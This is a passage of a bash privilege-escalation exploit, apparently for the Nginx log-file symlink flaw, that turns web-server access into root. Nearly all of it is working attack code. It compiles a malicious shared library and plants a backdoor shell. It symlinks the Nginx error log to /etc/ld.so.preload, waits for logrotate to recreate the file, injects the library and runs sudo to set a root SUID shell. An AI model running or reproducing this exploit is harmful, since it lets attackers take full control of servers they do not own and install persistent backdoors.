 ```bash
_solibeof_
/bin/bash -c "gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl"
if [ $? -ne 0 ]; then
        echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
        cleanexit 2;
fi


# Prepare backdoor shell
cp $BACKDOORSH $BACKDOORPATH
echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"

# Safety check
if [ -f /etc/ld.so.preload ]; then
        echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
        exit 2
fi

# Symlink the log file
rm -f $ERRORLOG && ln -s /etc/ld.so.preload $ERRORLOG
if [ $? -ne 0 ]; then
        echo -e "\n[!] Couldn't remove the $ERRORLOG file or create a symlink."
        cleanexit 3
fi
echo -e "\n[+] The server appears to be \033[94m(N)jinxed\033[0m (writable logdir) ! :) Symlink created at: \n`ls -l $ERRORLOG`"

# Make sure the nginx access.log contains at least 1 line for the logrotation to get triggered
curl http://localhost/ >/dev/null 2>/dev/null
# Wait for Nginx to re-open the logs/USR1 signal after the logrotation (if daily 
# rotation is enable in logrotate config for nginx, this should happen within 24h at 6:25am)
echo -ne "\n[+] Waiting for Nginx service to be restarted (-USR1) by logrotate called from cron.daily at 6:25am..."
while :; do 
        sleep 1
        if [ -f /etc/ld.so.preload ]; then
                echo $PRIVESCLIB > /etc/ld.so.preload
                rm -f $ERRORLOG
                break;
        fi
done

# /etc/ld.so.preload should be owned by www-data user at this point
# Inject the privesc.so shared library to escalate privileges
echo $PRIVESCLIB > /etc/ld.so.preload
echo -e "\n[+] Nginx restarted. The /etc/ld.so.preload file got created with web server privileges: \n`ls -l /etc/ld.so.preload`"
echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"
chmod 755 /etc/ld.so.preload

# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
sudo 2>/dev/null >/dev/null

# Check for the rootshell
ls -l $BACKDOORPATH
ls -l $BACKDOORPATH | grep rws | grep -q root
if [ $? -eq 0 ]; then 
        echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
        echo -e "\n\033[94mThe server is (N)jinxed ! ;) Got root via Nginx!\033[0m"
else
        echo -e "\n[!] Failed to get root"
```